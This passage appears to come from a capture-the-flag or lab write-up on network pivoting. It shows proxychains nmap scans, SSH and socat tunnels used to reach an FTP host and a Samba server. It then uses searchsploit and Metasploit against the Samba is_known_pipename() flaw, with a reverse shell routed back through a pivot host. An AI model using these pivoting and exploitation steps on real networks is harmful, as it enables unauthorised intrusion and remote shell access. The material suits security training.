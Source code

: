 ```bash
# run nmap via proxy chains to find the port
proxychains nmap -n -v -sT -p- -T4 10.112.3.207

# once the port is found, lay down a new tunnel to this host for ftp
ssh -p 2222 whistler@localhost -L 21:10.112.3.207:53131

# ftp to the host and flag is in the banner
ftp localhost
```
## Samba
In this, we need to pivot ffromor pivot 2 to the samba server and get access to the file share. The pivot on pivot 2 was setup with socat (remember, no ssh port forwarding allowed on this host) to relay SMB to samba host port 445. Then all analysis was performed on the localhost with the tunnels in place. An open share was discovered with out the flags, taunting to find another way in. Looking at the samba version, it was discovered to be vulnerable to is_known_pipename() which will give us a shell we can use to read the root file system.
```bash
# laydown a new tunnel to pivot 1 pointing to pivot 2 for the tunnel
ssh -p 2222 whistler@localhost -L 445:10.112.3.12:9998

# setup the socat server side to relay to samba host on port 445
socat TCP4-LISTEN:9998,reuseaddr,fork TCP:10.24.13.10:445

# scan the host
smbclient -L //127.0.0.1
nmap -n -v -p445 --script=smb-* --script-args='unsafe=1' 127.0.0.1

# find the vuln based on version
searchsploit samba

# use msf to fire the exploit because were all every lazy. Make sure the tunnels are inplace to receive the reverse shell, e.g. we a remote port on pivot 1 to funnel traffic back to localhost for msf
ssh -p 2222 whistler@localhost -R 5555:localhost:5555

# LHOST = 10.112.3.119 (internal IP of pivot 1)
# LPORT = 5555
```
